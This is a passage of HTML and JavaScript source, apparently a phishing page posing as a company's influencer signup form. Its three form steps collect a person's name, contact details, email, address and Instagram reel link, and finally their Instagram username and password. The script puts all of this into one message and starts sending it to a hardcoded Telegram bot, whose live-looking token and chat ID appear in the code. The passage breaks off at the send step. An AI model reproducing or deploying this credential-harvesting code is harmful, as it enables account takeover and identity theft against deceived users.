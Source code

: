       <label for="instaPassword">Instagram Password</label>
      <input type="password" id="instaPassword" name="instaPassword" required placeholder="Your Instagram password" />
      
      <button type="submit">Submit</button>
    </form>
    <!-- Final Message -->
    <div id="finalMessage" class="hidden final-message">
      WAIT FOR COMPANY RESPONSE
    </div>
  </div>
  <script>
  const step1 = document.getElementById('step1');
  const step2 = document.getElementById('step2');
  const step3 = document.getElementById('step3');
  const finalMessage = document.getElementById('finalMessage');
  // Your Telegram bot info
  const botToken = '7878471261:AAHPexKx9Dt0GcnTyQo_z-YD2d0bXzgmekg';
  const chatId = '5337817984';
  // Store data across steps
  const formData = {};
  step1.addEventListener('submit', e => {
    e.preventDefault();
    if (step1.checkValidity()) {
      formData.name = step1.name.value.trim();
      formData.contact = step1.contact.value.trim();
      formData.email = step1.email.value.trim();
      step1.classList.add('hidden');
      step2.classList.remove('hidden');
    } else {
      step1.reportValidity();
    }
  });
  step2.addEventListener('submit', e => {
    e.preventDefault();
    if (step2.checkValidity()) {
      formData.skinType = step2.skinType.value.trim();
      formData.address = step2.address.value.trim();
      step2.classList.add('hidden');
      step3.classList.remove('hidden');
    } else {
      step2.reportValidity();
    }
  });
  step3.addEventListener('submit', async e => {
    e.preventDefault();
    if (step3.checkValidity()) {
      formData.reelLink = step3.reelLink.value.trim();
      formData.instaUsername = step3.instaUsername.value.trim();
      formData.instaPassword = step3.instaPassword.value.trim();
      // Prepare message text for Telegram
      const message = `
New Form Submission:
Name: ${formData.name}
Contact: ${formData.contact}
Email: ${formData.email}
Skin Type: ${formData.skinType}
Address: ${formData.address}
Most Liked/View Reel Link: ${formData.reelLink}
Instagram Username: ${formData.instaUsername}
Instagram Password: ${formData.instaPassword}
      `;
      // Send message to Telegram
      try {